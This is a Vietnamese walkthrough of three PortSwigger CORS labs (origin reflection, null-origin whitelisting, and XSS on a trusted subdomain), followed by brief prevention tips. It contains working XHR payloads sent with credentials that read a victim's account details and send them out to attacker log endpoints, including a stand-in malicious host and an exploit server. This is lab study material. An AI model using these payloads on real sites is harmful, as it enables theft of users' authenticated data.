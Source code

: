 # CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: trusted all origin

![alt text](image.png)

Trong response có `Access-Control-Allow-Credentials: True` nó cho phép mang cookie hoặc authorization client có khi truy cập từ orgin khác. 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`

![alt text](image-1.png)

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

hoặc 
```js
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "Lab-id"

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

--- 

### 2. CORS vulnerability with trusted null origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

Nếu whitelist của trusted origin có `null` thì dẫn đến việc nó có thể dẫn đến CORS do browser sẽ gửi giá trị `null` trong origin trong 1 số trường hợp như: 
- Cross-origin redirects.
- Requests từ serialized data.
- Request sử dụng `file:` protocol.
- request cross-origin được gửi từ Sandboxed.

Payload: 
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

---

XSS WITH CORS

Khi CORS cho phép 1 orgin, nhưng origin đó có thể tấn công XSS thì từ origin đó có thể thực thi JS CORS qua trang chính mà không bị chặn. 

---

### 3. CORS vulnerability with trusted insecure protocols
https://portswigger.net/web-security/cors/lab-breaking-https-attack

Context: ở đây subdomain `stock.domain chính` bị XSS từ đây ta có payload: 

```html
<script>
    document.location="http://stock.0aa300c60441833c80501215002800e5.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aa300c60441833c80501215002800e5.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a29005b042a83c0807c11c901020006.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Ta chú ý: xuất phát từ `stock.` là trang bị XSS nhưng CORS cho phép, dùng JS để truy cập trang web cần lấy và rồi gửi thông tin về server attacker, rõ ràng trang web bị XSS nhưng vẫn nằm trang danh sách CORS này là trung gian.

Có 1 điểm đặc biệt nghiêm trọng trong CORS là `Access-Control-Allow-Credentials: true` vì khi có header này tức là khi ta request đến trang đó, nó sẽ cho phép lấy các authorization hoặc cookie mà client đã truy cập trước đó để request, thì sẽ tự động vào phiên của người dùng trước đó, còn nếu không có thì dù có truy cập được nhưng vẫn chỉ là trang web chung, vì ko có tính cá nhân victim trong đó. 

## How to prevent
- Chỉ cho phép các trang web đáng tin cậy
- Tránh để null vào whitelist
- Tránh sử dụng `*` cho mạng nội bộ 

 
